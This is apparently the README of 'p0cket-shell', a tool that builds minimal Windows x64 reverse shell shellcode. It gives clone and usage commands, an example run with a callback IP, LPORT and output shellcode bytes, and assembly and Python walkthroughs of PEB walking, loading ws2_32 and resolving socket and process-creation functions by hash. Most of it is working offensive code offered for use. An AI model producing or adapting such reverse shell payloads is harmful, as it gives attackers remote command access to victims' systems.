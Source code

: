 ﻿<div align="center" markdown="1">
  <img alt="Warp sponsorship" width="736" src="https://github.com/SilentisVox/p0cket-shell/blob/master/assets/p0cket-shell.jpg">
  <br>
  <sup>Special thanks to Waffles</sup>
</div>

# p0cket-shell

p0cket-shell is an implementation of an exceptionally compact reverse shell, engineered to achieve remote access with the smallest possible memory. This is minimalism without compromising functionality. This is the most size-efficient reverse shell available. This is peak shellcode optimization.

```
p0cket-shell.py
            ____       __        __             __         ____
     ____  / __ \_____/ /_____  / /_      _____/ /_  ___  / / /
    / __ \/ / / / ___/ //_/ _ \/ __/_____/ ___/ __ \/ _ \/ / /
   / /_/ / /_/ / /__/ ,< /  __/ /_/_____(__  ) / / /  __/ / /
  / .___/\____/\___/_/|_|\___/\__/     /____/_/ /_/\___/_/_/
 /_/
 Author: SilentisVox
 Github: https://github.com/SilentisVox/p0cket-shell

usage: p0cket-shell.py [-h] --payload {hardcode,resolve} --LHOST LHOST --LPORT LPORT --format
                       {c,powershell,ps1,python,exe,raw} [--output OUTPUT]
```

### Setup

```powershell
git clone https://github.com/SilenitsVox/p0cket-shell
cd p0cket-shell
python p0cket-shell.py
```

### Usage

```powershell
p0cket-shell.py --payload  [hardcode | resolve]
                --LHOST    [callback ip]
                --LPORT    [callback port]
                --format   [c | powershell | python | exe | raw]
               [--output]  example.py
```

### Example

```
p0cket-shell.py -p hardcode -lh 192.168.1.190 -lp 1337 -f python

[*] Payload size: 264 bytes
[*] Final size of python file: 1309 bytes
buf  = b""
buf += b"\x65\x48\x8b\x04\x25\x60\x00\x00\x00\x48\x8b\x40"
buf += b"\x18\x48\x8b\x40\x30\x48\x8b\x00\x48\x8b\x00\x48"
buf += ...
```

## How it works

Standalone reverse shell shellcode must follow a specific process. Fortunately for us, it is very straight forward.

1. Get handle to kernel32.dll
2. Get handle to ws2_32.dll
3. Save functions: WSAStartup, WSASocketA, WSAConnect CreateProcessA
4. Call functions: WSAStartup, WSASocketA, WSAConnect CreateProcessA

###### Grab library handles
```nasm
get_kernel32:
    mov   rax,   gs:[0x60]              ; PEB
    mov   rax,   [rax + 0x18]           ; PEB->Ldr
    mov   rax,   [rax + 0x30]           ; Ldr->InMemoryOrderModuleList
    mov   rax,   [rax]                  ; InMemoryOrderModuleList.Flink (ntdll.dll)
    mov   rax,   [rax]                  ; Flink->Flink (kernel32.dll)
    mov   rbp,   [rax + 0x10]           ; Base Address
```
```nasm 
load_ws2_32:
    push  0x006c6c                      ; '0\ll'
    mov   rax,   0x642e32335f327377     ; 'd.23_2sw'
    push  rax                           ; Push to stack
    mov   rcx,   rsp                    ; Save pointer 'ws2_32.dll' to rcx
    sub   rsp,   0x28                   ; Align stack
    call  r14                           ; Call LoadLibraryA (Base Address stored in rax)
```

Now from here we can grab the functions within the 2 libraries and then use them how we want. We have to remember how each function behaves and remember whats needed for each function.

### Finding Functions

Now this is the main issue with making tiny shellcode. We want the most reliable/stable, while also providing a very small size. If we do not care for these, we can make very small shellcode.

All we would need to do is have a hardcoded offset from the module base address.

###### Hardcode Offset

```nasm
get_createprocess:
    lea   r15,   [rbp + 0x44F70] ; Hardcode offset from base address
```

If we wish to maintain reliablity and stabilty, we must parse through the desired libraries AddressOfNames, and match it to one we have. The best way to accomplish this would be hashes.

We need a custom mini hash algorithm to make hashes of our desired functions, then we would need to find a function name, hash it, then compare to what we have. If it matches, save the address and return.

### Hashing Algorithm

###### Calculate Hash User Side

```python
def hash(function_name: bytes, rotate_amount: int):
    calculated_hash                     = 0

    for byte in function_name:
        calculated_hash                 = ((calculated_hash >> rotate_amount) | (calculated_hash << (32 - rotate_amount))) & 0xFFFFFFFF
        calculated_hash                 = (calculated_hash + byte) & 0xFFFFFFFF

    return hex(calculated_hash)
```

###### Calculate Hash Machine Side

```nasm
    xor   rax, rax
    xor   rbx, rbx
    cld

hash_loop:
    lodsb
    test  al,    al
    jz    compare_hash
    ror   ebx,   7 ;)
    add   ebx,   eax
    jmp   hash_loop

compare_hash:
    cmp   ebx,   rdx ; Or wherever you have the hash
    jz    hash_found
    jnz   next_function
```
